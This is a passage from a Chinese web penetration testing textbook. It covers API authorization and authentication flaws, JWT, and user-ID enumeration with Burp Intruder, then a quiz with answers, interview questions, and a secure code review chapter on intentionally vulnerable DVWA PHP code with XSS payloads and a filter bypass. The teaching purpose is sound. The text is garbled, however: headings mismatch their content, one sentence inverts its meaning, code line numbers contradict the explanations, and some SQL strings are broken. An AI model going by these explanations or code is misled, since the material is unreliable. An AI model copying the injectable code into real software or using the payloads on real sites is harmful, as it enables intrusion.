与 Web 应用注入漏洞一样，当不受信的数据被发送到解释器时，就会发生 API 注入漏洞，如 `SQL`、`NoSQL`、命令注入等。

不受信的数据可以通过 URL 参数、标头或 Cookie 进入 API。这被称为授权级授权。

#### SQL 示例

当应用程序没有正确验证发送请求的用户具有所需的权限时，就会发生对象授权。以下是一个例子：


- API 调用使用 `cust_id` 参数访问：`GET /shop1/customer_info?cust_id=3423`

- 攻击者通过猜测增加了他们自己的资源 ID：`GET /shop1/customer_info?cust_id=3424`

## 预防损坏的对象授权

在消除 API 损坏的对象授权时，可以考虑以下关键点：

- 应用程序必须根据用户策略和层次进行适当的权限检查。
- 不要信任客户端的 ID，而是使用服务器会话中的。
- 对每个客户端请求进行权限检查。
- 使用不可预测的随机 ID（`UUID`）。

## 身份损坏

身份验证系统通常应用不当，导致攻击者破坏身份令牌或利用身份验证缺陷冒充其他用户。因此，身份损坏的示例包括：

- 弱密码、明文、加密、哈希不足、共享或默认密码。
- 凭据包含 URL。
- 缺乏访问令牌验证（包括 JWT 验证）。
- 弱 API 密钥。
- 不符合最佳实践的弱身份验证。
- 易受到自动化暴力破解和撞库攻击的身份验证。
- 被视为内部的未受保护 API。
- 无签名或弱签名的不过期 JWT。

## JSON Web Token (JWT) 简介绍

JSON Web Token 或 JWT 在保护 API 变得越来越流行。在本节中，我们将尝试理解 JWT 是如何工作的。

在每次 API 通信中，我们都有客户端和服务器。客户端想要访问服务器上的某些保护数据，服务器只想将数据交给可靠的客户端。因此，我们的客户端向服务器发送请求，带有用于验证其身份的数据：

> 客户端 → 身份信息 → 服务器

假设客户端（用户）提供的身份数据被服务器接受为有效。现在，服务器不再保存这些用户数据，而是创建一个令牌。

此令牌将返回给客户端，由客户端负责存储这些数据，并在需要时将其发送，用于对服务器的任何请求：

客户端 ← JWT 令牌 ← 服务器

当我们的客户端下一次通过安全路由发送请求时，它会带上 JWT 令牌。然而，我们的服务器知道不应该信任客户端，因为客户端是不可信的。因此，我们的服务器会验证此令牌是否来自它所声称的身份，并确定它是否被篡改过。如果验证成功，服务器将对请求的数据发送响应，大家从此过上了幸福的生活。

换句话说，你可以将 JWT 者令牌（bearer token） 进入进入安全建筑的身份标识。该建筑包含独特的权限（声明/claims）；也就是说，它可能允许访问建筑的某些部分。

JWT 与其他 Web 令牌的区别在于，它们拥有一组声明。**声明（Claims）**用于在双方之间传输信息。这些声明的具体内容取决于当前的使用实例。例如，它可能强制要求说明是谁提供了令牌、令牌有效期多久，或者客户端提供了哪些权限。

**JWT** 是一个由三个部分组成的字符串，用点（.）分隔，并使用 `base64` 进行序列化。在最典型的序列化格式——便携式序列化中，JWT 看起来如下：

`aaaaa.bbbb.ccccc.`

解码后，你将获得一个头部（header）、一个负载（payload）和一个签名（signature）。**负载**包含声明。**签名**确保了令牌没有被修改。生成 JWT 的方使用发件者和接收方双方已知的密钥对头部和负载进行签名。

使用 JWT 的常用方法是作为 **OAuth 者令牌**。在这里，授权服务器根据客户端的请求创建一个 JWT 并将其发送，以确保它不会被任何其他方更改。客户端随后会将此 JWT 随同其请求发送到 REST API。REST API 将验证 JWT 签名是否与它的负载和头部匹配，以确认该 JWT 是否有效。当 REST API 验证了 JWT 之后，它可以使用声明来允许或拒绝客户端的请求。

## 防止受损的用户身份验证

在消除 API 中受损的对象级授权（broken object level authorization）问题时，可以考虑以下关键点：

- 强烈建议开发者对身份验证使用更严格的速率限制，并执行锁定策略和弱密码检查
- 使用标准的身份验证、令牌生成、密码存储和多因素身份验证 (`MFA`)
- 用于密码重置和用户身份验证的 API 必须经过仔细的安全防护
- 检查验证所有 API 的所有可能方法。验证你的应用程序，以便知道是谁在与你进行交互
- 使用短寿命访问令牌
- 检查验证所有 API 的所有可能方法

## 资源缺失和速率限制

通常情况下，API 不会对客户端/用户可以请求的资源的大小或数量强制执行任何类型的限制。这不仅会影响 API 服务器的性能并导致拒绝服务 (`DoS`)，还会为暴力破解等身份验证问题留下可乘。以下是滥用资源缺失和速率限制的某些示例：

- 攻击者可以通过发送超过其处理能力的请求来使 API 过载。
- 攻击者可以以超过 API 处理速度的速度发送请求，导致其阻塞。
- 请求的大小或其某些字段的大小超过了 API 能够处理的范围。

可以使用 Burp Intruder 对 API 进行资源缺失和速率限制的测试。Burp Intruder 的原理是获取一个 HTTP 请求（称为基础请求），通过多种系统方法修改请求，发布每个修改后的请求版本，并检查应用程序的响应以确定有趣的特征。

对于每次攻击，你必须定义一组或多组负载（payloads）以及在基础请求中放置负载的位置。生成负载有许多方法可用（包括简单的字符串列表、数字、日期列表、暴力破解和位翻转）。可以使用各种算法将负载放置到负载位置。有许多工具可以检查结果并识别出值得进一步检查的有趣内容。

让我们尝试在以下 API 中暴力破解用户 ID 并枚举一个有效的用户 ID：

```
https://gorest.co.in/public/v1/users/123
```

我们可以从 Burp Repeater 访问此 API，如图 4.57 所示。



`GET` 请求将是我们的基础请求。我们需要将基础请求发送到 Burp Intruder。我们可以通过右键点击请求来实现，如下所示：



一旦在 intruder 中获取了基础请求，我们需要选择基础请求中想要让 Burp Intruder 操作的位置。这在图 4.59 所示。



在这种情况下，我们想要枚举一个有效的用户 ID，在本例中是 123。我们选择数字 123 并点击 Add $ 按钮，如图 4.60 所示。



## 图 4.60：添加点

一旦我们添加了 `$`，基础请求看起来像这样：

```
GET /public/v1/users/$123 HTTP/1.1
Host: gorest.co.in
Connection: close
```

然后，我们需要告诉 intruder 我们想如何操作用户 ID。为此，我们需要导航到 Payloads 标签页，如下所示：



# 图 4.61：在 Burp Intruder 中选择负载

在这种情况下，我们想要一个自动递增的列表，例如 1, 2, 3……为此，我们需要选择负载类型为 Numbers，如图 4.62 所示：


一旦我们配置好负载，我们需要点击 Start。一个新窗口将打开，你将看到 intruder 发送的所有请求及其响应（图 4.64）。从响应码中，我们可以看到 200 是有效的，而 404 是无效的：

| 攻击 | 保存 | Intruder | 长度 |
| :--- | :--- | :--- | :--- |
| 结果 | 攻击 | 负载 | 选项 |
| 显示所有的 gorest.co.in 项目 | | | |
| 0 | | 200 | 751 |
| 1 | | 200 | 766 |
| 2 | | 404 | 630 |
| 3 | | 404 | 630 |
| 4 | | 404 | 630 |
| 5 | | 404 | 630 |
| 6 | | 200 | 782 |
| 7 | | 404 | 630 |
| 8 | | 404 | 630 |
| 9 | | 404 | 630 |
| 10 | | | 630 |
| 11 | | 404 | 630 |
| 12 | | 200 | 772 |
| 13 | | 404 | 630 |
| 14 | | 404 | 630 |
| 15 | | 404 | 630 |
| 16 | | 404 | 630 |
| 17 | | 404 | 630 |

图 4.64：Intruder 结果

通过图 4.64，我们应该能看出 0、1、6 和 12 是有效的用户 ID。

## 多选题

- 1. 哪个 cookie 标记会使攻击者难以执行 XSS 攻击？


A. `HTTPONLY`

B. `SECURE`

C. `XSS_FALSE`

D. `NoScript`

- 2. 哈希是可逆的。

  A. 正确

  B. 错误

- 3. Base64 编码是不可逆的。

  A. 正确

  B. 错误

- 4. SSRF 攻击需要某种程度的社会工程。

  A. 正确

  B. 错误

- 5. 同源策略会阻止 SQL 注入发生。

  A. 正确

  B. 错误

- 6. 在 DOM XSS 中，负载永远永远离开用户的浏览器。

  A. 正确

  B. 错误

- 7. CSRF token 可以用于防止服务端请求伪造。

  A. 正确

  B. 错误

- 8. SHA256 比 MD5 更安全。

  A. 正确

  B. 错误

- 9. Base64 加密对于加密任何服务器上的静态数据已经足够了。

  A. 正确

  B. 错误

- 10. 输入验证对于防止 XSS 攻击足够了。

  A. 正确

  B. 错误

## 答案

- 1. A

- 2. B

- 3. B

- 4. B

- 5. B

- 6. A

- 7. B

- 8. A

- 9. B

- 10. B

## 常见面试题

- 1. 请解释“不同类型的 Web 应用程序漏洞”部分列出的所有漏洞，并提供示例及其缓解策略。
- 2. 渗透测试的需求是什么？
- 3. 漏洞（vulnerability）和利用（exploit）的区别是什么？
- 4. 区分哈希（hashing）和编码（encoding）。
- 5. 区分加密（encryption）和编码（encoding）。
- 6. 你如何破解密码哈希？
- 7. 最安全的哈希算法是什么？
- 8. HTTP 协议如何管理会话（session）？
- 9. 最常见的 Web 漏洞有哪些？OWASP 列表排名的漏洞有哪些？
- 10. Cookie 中的安全标记（secure flag）是什么？
- 11. Cookie 中的 httponly 标记是什么什么？
- 12. 什么是 XSS？
- 13. XSS 有哪些类型？
- 14. XSS 可以通过哪些方式被利用？
- 15. 在 Web 应用程序中测试 XSS 漏洞？
- 16. 我们如何防止 XSS？
- 17. 什么是 DOM 型 XSS？
- 18. 你如何对 Web 应用程序进行 DOM 型 XSS 测试？
- 19. 什么是 SQL 注入？
- 20. SQLi 的变体有哪些？
- 21. 你如何测试 SQLi？
- 22. 什么是盲 SQL 注入？
- 23. 我们如何防止 SQLi？
- 24. 什么是服务端请求伪造（SSRF）？请结合场景解释。
- 25. SSRF 的一些预防措施有哪些？
- 26. 什么是 CSRF 漏洞？
- 27. 你如何利用 CSRF 漏洞？
- 28. CSRF 的推荐修复措施有哪些？
- 29. 什么是会话固定（session fixation）问题？
- 30. 绕过认证的各种方式有哪些？
- 31. 水平权限提升意味着什么？
- 32. 垂直权限提升意味着什么？
- 33. 什么是缓冲区溢出漏洞？
- 34. 什么是 WebShell（webshells）？
- 35. 你如何测试 Web 应用程序的不安全文件上传漏洞？
- 36. 你如何利用不安全的文件上传漏洞？
- 37. 什么是加密失败？
- 38. 什么是 SSL？解释 SSL 是如何工作的。
- 39. 你如何对 Web 应用程序进行暴力破解攻击？
- 40. 什么是不安全的直接对象引用（IDOR）？
- 41. 如何防止不安全的直接对象引用（IDOR）？
- 42. DOM、反射型和存储型 XSS 之间有什么区别？
- 43. 如何使用 XSS 窃取存储 HTML5 本地存储中的数据？
- 44. 什么是同站 Cookie（same-site cookie）？
- 45. 如何测试 JSON 请求的 CSRF？
- 46. 你如何识别应用程序中不同的 CORS 配置错误？
- 47. 提供一些可以利用实现 RCE（远程代码执行）的漏洞示例。
- 48. 什么是服务端模板注入？
- 49. 什么是客户端模板注入？
- 50. JWT 的不同组件是什么？突出应用程序使用 JWT 令牌的一些测试用例。
- 51. 解释 SAML 与 SSO 使用时的某些安全测试用例。
- 52. 什么是 GraphQL 内省查询？它将如何导致不同的漏洞？
- 53. 什么是 XXE？XXE 如何被用来产生 SSRF？
- 54. 什么是十亿次攻击（Billionions laugh attack）？
- 55. 什么是公式注入（Formula injection）？
- 56. 什么是原型污染（Prototype pollution）？
- 57. 解释 Apache Log4j 如何通过 JNI 受到远程代码执行（RCE）。
- 58. 什么是反射文件下载（Reflected File Download）？
- 59. 什么是 SOAPAction 头部欺骗？
- 60. 什么是跨站 WebSocket 劫持（Cross-Site WebSocket Hijacking）？
- 61. 什么是 HTTP 请求拆分（HTTP Request Smuggling）？
- 62. 什么是 缓存欺骗（Web Cache Deception）？
- 63. 什么是 缓存投毒（Web Cache poisoning）？
- 64. 什么是跨站 WebSocket 劫持？
- 65. 提供二次 SQL 注入的示例。
- 66. 什么是 SMTP 注入？
- 67. 如何检测不安全的反序列化？
- 68. API 的限流（Rate-limiting）是什么？
- 69. 什么是 HTTP 响应拆分？

# 第 5 章：安全代码审计的艺术

## 引言

安全代码审计是一项定制化的工作，包括对软件或应用程序进行手动和/或自动审查，以确定安全缺陷。安全代码审计的主要目标是为程序员提供信息，使应用程序更加安全。

### 结构

我们本章将涵盖以下主题：

- 安全代码审计引言
- 手动安全代码审计
- 自动安全代码审计
- 自动代码扫描技术
- 代码审计工具
- 漏洞示例

### 目标

学习本章后，你将更好地理解安全代码审计的过程及其重要性。我们将深入探讨安全代码审计的两种方式：手动和自动。最后，我们将深入研究一个漏洞应用程序的源代码并尝试识别漏洞。

## 安全代码审计引言

几乎所有的软件开发生命周期（SDLC）都包含对功能的测试和验证，这通常通过同行或外部实体的代码审查来完成。审查验证了应用程序是否按预期工作以及功能是否被正确实现。然而，应该进行专门针对安全的额外审查。

现在让我们了解安全代码审计如何帮助渗透测试人员进行应用程序的安全评估。黑盒测试人员通常不知道被测试应用程序的内部架构。然而，白盒测试人员提供了一个完全不同的视角。在深度 Web 渗透测试中，理解源代码有助于测试人员深入底层。在白盒测试中，测试人员必须精通所使用的编程语言。该过程是透明的，因为测试人员可以检查用户输入如何流经源代码、逻辑路径等。

安全代码审计的目标是定位并确定代码中特定的安全问题，恶意用户可能会利用这些问题损害应用程序的机密性、完整性和可用性。例如，未验证的输入进入限制缓冲区会导致缓冲区溢出，允许破坏性用户执行任意代码并提升权限。安全代码审计旨在发现这些问题，通知开发团队，并最终减少应用程序中的漏洞。

## 手动安全代码审计

手动安全代码审计是逐行审查源代码以识别潜在漏洞的过程。这是一个枯燥的过程，需要技能、经验、坚持和耐心。

通过人工审查流程发现并最终解决漏洞，可以显著提高组织的安全性。

人工安全代码审计主要分为三个阶段：**与开发者讨论、执行代码审计**以及报告阶段：

- **与开发者讨论：** 通过与开发者召开会议开始，审查团队有机会在检查代码之前识别应用程序的意图。在对应用程序预期的服务功能或能力有了基本理解后，会议将集中在关键的安全触点上，例如开发者用于身份验证、数据校验和记录的技术。

- **执行代码审计：** 会议结束后，审查团队将独立运行对整个应用程序进行审查。与其将单个代码文件交给特定的团队成员，不如让每个参与者审查整个应用程序。这种方法发挥了每个独立审查员的专长，通常会导致发现不同但相关的问题。另一个优势是，对完全同一组代码进行多个人审查可以作为质量检查，确保发现是正确的。

- **报告：** 在完成个人代码审计后，团队聚会分享结果。每位审查员都有机会审查他人的发现，并检查哪些特定发现可能出现在一个团队成员的列表中而在另一个人的列表中没有。这一阶段有助于确保报告的相关性。最后，将使用标准的报告布局向设计师/架构师/开发者提交最终的问题列表以及描述和预期的缓解措施。

## 自动化安全源代码审计


源代码分析工具（也称为静态应用安全测试 (SAST) 工具）可以帮助分析源代码或编译后的代码变，以在 IDE 中定位安全缺陷。此类工具可以帮助您检测软件应用程序开发过程中的问题。SAST 工具的反馈可以节省时间和精力的，特别是与在开发周期后期才定位漏洞相比。

## 自动化源代码评估的不同阶段

自动化源代码扫描器从多个角度查看程序源码。代码审查工具将具有独立的、可自定义的引擎/模块来检查源代码。这些扫描引擎中的每一个都试图识别源码中不同方面的不同类型安全问题：

- **数据流：** 数据流分析器发现涉及受污染数据（用户控制的输入）用于潜在危险用途的预期漏洞，例如缓冲区溢出和 SQL 注入。
- **控制流：** 控制流分析器发现潜在不安全的程序序列，例如“检查时间/使用时间”（TOCTOU、TOCTTO 或 TOC/TOU）问题和未初始变量。
- **语义：** 语义分析器在过程内级别识别潜在危险的用法、功能和 API，例如过弃的功能和风险功能。
- **结构化：** 结构分析器发现程序结构或定义中可能不安全的问题，例如死代码。
- **配置：** 配置分析器在应用程序的实现配置文件中查找错误、弱点和策略违规。

自动化源代码扫描可以分为几个阶段。该技术可能随扫描器而异。这里我们指的是一种名为 Fortify 的流行源码扫描工具所使用的扫描方法。从高级来说，这些阶段如下：

- **构建集成：** 源代码评估的第一阶段涉及选择是否将静态代码分析器 (SCA) 直接集成到构建编译器系统中。
- **翻译：** 在此阶段，收集源代码，并使用一系列命令将其转换为与构建 ID 相关的中间格式。构建 ID 通常是正在扫描的任务名称。
- **分析：** 在此阶段，对翻译阶段识别出的源文件进行扫描，并准备分析结果文件。通常，对于 Fortify 扫描器，会创建 Fortify Project (FPR) 格式。
- **翻译和分析的验证：** 此阶段确保使用正确的规则包检查了源文件，并且没有报告重大错误。

## 自动化代码审查工具

我们可以想象坐着休息并手动审查每一行代码来定位其中的缺陷吗？为了让我们的工作更轻松，市场上有许多类型的静态分析工具。它们帮助在开发期间评估代码，并在 SDLC 阶段早期识别致命缺陷。此类问题可以在代码推送到功能 QA 之前被消除。后期发现的缺陷处理起来总是昂昂的。以下是一些流行的源码审查工具，列表没有特定顺序：

- PVS Studio：支持 C, C++, C++11, C++/CLI, C++/CX, C#, 和 Java 的商业工具
- Reshift：使用机器学习的 Java 商业工具
- CAST：支持 30 多种语言的商业工具
- Veracode：支持 Android, ASP.NET, C#, C++, Classic ASP, COBOL, ColdFusion/Java, Go, Groovy, iOS, Java 和 JavaScript 的商业工具
- Coverity：支持 Android, C#, C++, Java, JavaScript, Node.js, Objective-C, PHP, Python, Ruby, Scala, Swift 和 VB.NET 的商业工具
- CodeSonar：支持 C, C++, Java 和 C#，并针对 OWASP 前 10 漏洞进行映射的商业工具
- Fortify静态代码分析器：支持几乎所有编程语言的商业工具
- CodeScene 行为代码分析：支持 C, C++, Java, Groovy, JavaScript, TypeScript, Objective C, Scala, Python, Swift, Go, Kotlin, Visual Basic .Net, PHP, Perl, Dart, Erlang 和 Ruby 的商业工具
- SonarQube：针对十五种语言 Bug 的免费开源源码工具

## 自动化代码审查对比人工代码审查

与自动化工具一样，人工代码审查也有其优势。然而，自动化工具在身份验证、加密和数据校验等领域表现不佳。人工审查通常擅长识别逻辑缺陷。自动化工具经常会产生误报，而人工审查通常是缓慢且耗时的。

## 不同漏洞的示例

到目前，我们已经知道 DVWA 是一个漏洞应用程序。如果不是，我们建议你具备 PHP 的基础知识。从下一节开始，我们将深入研究几个漏洞组件。

在通过源码审查发现应用程序中的安全问题时，理解数据和控制流非常重要。因此，在我们跳转到 DVWA 应用程序之前，让我们看看在 PHP 应用程序中理解数据流的方法。正如我们在上一章中所讨论的，任何标准的 Web 服务器都通过 GET 或 POST 方法从用户接收数据。大多数基于 Web 的攻击是通过向合法数据注入恶意数据执行的。因此，理解 HTTP 客户端（例如浏览器）如何向服务器发送数据以及服务器端代码如何处理数据是非常重要的。让我们来看发送到服务器的示例 HTTP 请求，我们在 DVWA 的暴力破解方法中输入用户名和密码。从图 5.2 中可以看到应用程序通过 GET 方法发送用户名和密码。


现在，让我们来看 DVWA 暴力破解模块的服务器端 PHP 源代码，并与图 5.2 中所示的原始 HTTP 请求进行对比。这将帮助我们理解服务器端代码是如何消耗用户传递的数据：

```php
<?php
if (isset($_GET['username'])) {
  $user = $_GET['username'];
  $user = mysqli_real_escape_string($conn, $user);
  $query = "SELECT * FROM users WHERE username='$user' AND password='";
  $result = mysqli_query($conn, $query);
?>
```



图 5.3：HTTP 中的数据流

让我们理解图 5.3 中的数据流：

- 1. 从客户端，username、password 和登录参数被传递到服务器。右侧是负责处理参数的 PHP 服务器端代码。我们现在关注参数 username。
- 2. 正如我们所见，这是一个 GET 请求。PHP 代码使用 `$_GET['username']` 提取 GET 参数并将其保存到变量 `$user` 中。在这个示例中，PHP 变量 `$user` 的值是用户/客户端传递的 admin。如果客户端应用程序通过 POST 请求发送参数，服务器端代码将使用 `$_POST['username']` 而不是 `$_GET['username']` 来处理该参数。其他参数也如此。
- 3. 然后，我们看到变量 `$user` 被传递给几个函数：`stripslashes()` 和 `mysqli_real_escape_string()`。此外，变量的最终值被传递到……

这个基础示例应该让你对如何理解 PHP 中的数据流/代码控制有一定的了解。现在，让我们深入研究 DVWA 其他漏洞组件的源码。请记住，当你将 DVWA 安全级别从低改为中，或从中改为高时，你通过“查看源代码”选项看到的源码会发生变化。

## DVWA 跨站脚本漏洞

当应用程序没有输入过滤和输出编码时，就会发生跨站脚本攻击。以下是 DVWA XSS 模块在安全级别设置为低时的服务器端 PHP 源码。让我们理解正在发生什么：

- 1. `<?php`
- 2. `if (!array_key_exists("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == '') {`
- 3. `$isempty = true;`
- 4. `} else {`
- 5. `echo '<pre>';`
- 6. `echo 'Hello ' . $_GET['name'];`
- 7. `echo '</pre>';`
- 8. `}`
- 9. `?>`

在第 2 行，应用程序检查 GET 参数 name 是否由客户端发送，并确保它不为 NULL 或空。之后，在第 6 行，我们看到应用程序使用 `$_GET['name']` 获取 name 参数，并使用 `echo` 语句将其发送回客户端/浏览器。那么，这里哪里错了呢？name 参数来自客户端，是完全不可的。恶意用户可以注入任何可能伤害终端用户的内容，包括恶意的 JavaScript 和 HTML 代码。通常，攻击者会注入带有 `<script>` 标签的 JavaScript 代码来执行 XSS 载荷，因为相同的脚本在没有任何输出编码的情况下回显给客户端。

现在，让我们将 DVWA 安全级别设置为中，看看它是如何处理不可信数据的：

- 1. `<?php`
- 2. `if (!array_key_exists("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == '') {`
- 3. `$isempty = true;`
- 4. `else {`


- 5. `echo '<pre>';`

- 6. `echo 'Hello ' . str_replace('<script>', '', $_GET['name']);`

- 7. `echo '</pre>';`

- 8. `}`

- 9. `?>`

大部分代码保持不变，但我们可以在第 6 行看到一些变化。我们看到应用程序现在使用 PHP 函数 `str_replace()` 来替换 `<script>` 标签。在这种特定情况下，如果攻击者注入 `<script>alert('xss')</script>`，应用程序将回显输入，但 `<script>` 标签将被替换/删除。因此，发送到客户端的最终输出将是 `alert('xss')`。显然，XSS 将失败。然而，这种缓解措施的问题在于，它只检查了硬编码的脚本标签。如果攻击者将 `<script>` 改为 `<sCrIpT>`，过滤器将失效，XSS 漏洞再次被触发。

现在，让我们看看 DVWA 安全级别设置为高的情况。再次，我们可以在第 6 行看到一些变化。我们看到一个名为 `htmlspecialchars()` 的 PHP 函数：

```php
<?php
2. if(!array_key_exists("name", $_GET) || $_GET['name'] == NULL || $_GET['name'] == '') {
3. $isempty = true;
4. else {
5. echo '<pre>';
6. echo 'Hello ' . htmlspecialchars($_GET['name']);
7. echo '</pre>';
8. }
9.?>
```

这个函数对输入参数做了什么？它基本上是将 HTML 中使用的特殊字符转换为其他内容，如图 5.4 所示：

### 执行的转换

| 字符 | 替换 |
| :--- | :--- |
| & (和符号) | &amp; |
| " (双引号) | &quot; (除非设置了 ENT_NOQUOT) |
| ' (单引号) | &#39; (用于 ENT_HTML40) 或 &apos; (用于 ENT_XML, ENT_XHTML 或 ENT_HTML5)，但仅在设置了 ENT_QUOTES 时 |
| < (小于号) | &lt; |
| > (大于号) | &gt; |

图 5.4：`htmlspecialchars` 字符定义

当转换发生在服务器端时，当攻击者向应用程序注入 `<script>alert('xss')</script>` 时，应用程序将回显 `&lt;script&gt;alert('xss')&lt;/script&gt;`。浏览器会渲染代码，但它不会被视为 JavaScript；因此，注入的代码永远在浏览器中执行。你可以通过以下链接阅读更多关于内置 PHP 函数的信息：https://www.php.net/manual/en/function/htmlspecialchars.php

### DVWA 存储型跨站脚本漏洞

DVWA 存储型 XSS 的情况下也发生了类似的情况。然而，它没有将注入的数据回显给客户端，而是直接保存它。让我们理解安全级别设置为低时的源码：

```php
<?php
2. if (isset($_POST['name'])) {
3. $name = $_POST['name'];
4. $name = stripslashes($name);
5. echo '<pre>';
6. echo 'Hello ' . $name;
7. echo '</pre>';
8. }
?>
```

### SQL 注入

SQL 注入是一种允许攻击者干扰应用程序对数据库执行查询的漏洞。让我们理解安全级别设置为低时的源码：

```php
<?php
1. if (isset($_GET['id'])) {
2. $id = $_GET['id'];
3. $query = "SELECT username, password FROM users WHERE id = $id";
4. $result = mysqli_query($conn, $query);
5. while ($row = mysqli_fetch_assoc($result)) {
6. echo "Username: " . $row['username'] . "<br>";
7. echo "Password: " . $row['password'] . "<br>";
8. }
9. }
?>
```

应用程序在第 4 行将参数 `$id` 的传递值保存在 PHP 变量 `$id` 中。在第 5 行，应用程序构建 SQL 查询，并在那里使用了变量 `$id` 而没有任何过滤。第 6 行执行查询。显然，第 5 行会导致严重的安全问题，使应用程序受到 SQL 注入攻击。让我们安全级别设置为中，看看有什么变化：

```php
<?php
1. if (isset($_GET['id'])) {
2. $id = $_GET['id'];
3. $id = mysqli_real_escape_string($id);
4. $query = "SELECT username, password FROM users WHERE id = '$id'";
5. $result = mysqli_query($conn, $query);
6. while ($row = mysqli_fetch_assoc($result)) {
7. echo "Username: " . $row['username'] . "<br>";
8. echo "Password: " . $row['password'] . "<br>";
9. }
10. }
?>
```

19. `?>`

我们可以看到在第 5 行引入了一个新函数 `mysql_real_escape_string`。`mysql_real_escape_string`：此函数转义字符串中的特殊字符以用于 SQL 语句，这基本上可以从一定程度上防止 SQL 注入的发生。你可以在以下链接找到有关该 API 的更多详情：https://www.php.net/manual/en/function/mysql-real-escape-string.php

### DVWA 盲注漏洞

当攻击者尝试利用 SQL 注入漏洞时，Web 应用有时会抛出数据库的错误信息，说明 SQL 查询语句语法可能错误。盲注 SQL 注入与我们目前看到的普通 SQL 注入几乎相同，唯一的区别在于后端如何处理和构造查询。让我们尝试理解 DVWA 的盲注 SQLi 模块：

```php
1. <?php
2. if (isset($_GET['Submit'])) {
3. // 获取数据
4. $id = $_GET['id'];
5. $getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';
6. $result = mysql_query($getid); // 移除了 'or die' 以抑制 MySQL 错误
7. $num = @mysql_numrows($result); // '@' 字符抑制错误，使注入变为“盲”
8. $i = 0;
9. while ($i < $num) {
